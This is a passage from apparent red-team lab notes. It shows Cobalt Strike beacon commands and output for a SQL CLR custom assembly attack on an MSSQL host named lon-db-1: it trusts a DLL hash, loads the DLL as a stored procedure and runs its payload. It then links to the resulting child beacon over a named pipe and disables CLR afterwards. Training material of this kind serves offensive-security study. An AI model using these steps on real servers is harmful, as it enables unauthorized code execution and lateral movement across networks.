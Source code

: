 Now load and execute the assembly using `sql-clr`.

```powershell
beacon> sql-clr lon-db-1 C:\Users\Attacker\source\repos\ClassLibrary1\bin\Release\ClassLibrary1.dll MyProcedure

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Performing CLR custom assembly attack on lon-db-1

[*] CLR is enabled
[!] Error fetching results
[*] Assembly hash does not exist (error fetching result normal)
[*] Added SHA-512 hash for DLL to sys.trusted_assemblies with the name "spijufut"
[*] Creating a new custom assembly with the name "sockuoyl"
[*] Loading DLL into stored procedure "MyProcedure"
[*] Created "[sockuoyl].[StoredProcedures].[MyProcedure]"
[*] Executing payload...
[*] Cleaning up...

[*] Disconnecting from server

beacon> link lon-db-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
[+] established link to child beacon: 10.10.120.20
```

![[Pasted image 20250723092300.png]]

Finally, set SQL CLR back to disabled using `sql-disableclr`.

```powershell
beacon> sql-disableclr lon-db-1
```